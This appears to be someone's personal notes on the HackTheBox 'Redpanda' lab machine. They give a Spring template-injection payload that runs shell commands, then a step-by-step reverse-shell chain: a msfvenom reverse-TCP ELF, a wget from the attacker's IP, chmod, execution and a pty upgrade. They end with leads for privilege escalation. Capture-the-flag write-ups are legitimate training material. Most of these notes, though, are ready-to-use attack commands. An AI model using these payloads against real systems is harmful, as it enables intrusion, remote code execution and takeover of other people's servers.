 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('the command').getInputStream())}


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.8:443/r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'

# Privilege escalation
- I discovered that there is a process running as root containing the panda search, when crawling through the long goofy ahh java file structure I found three java files at this path: "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search"
- Hardcoded sql credentials in MainController for some reason
- Possible XXE in "/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java"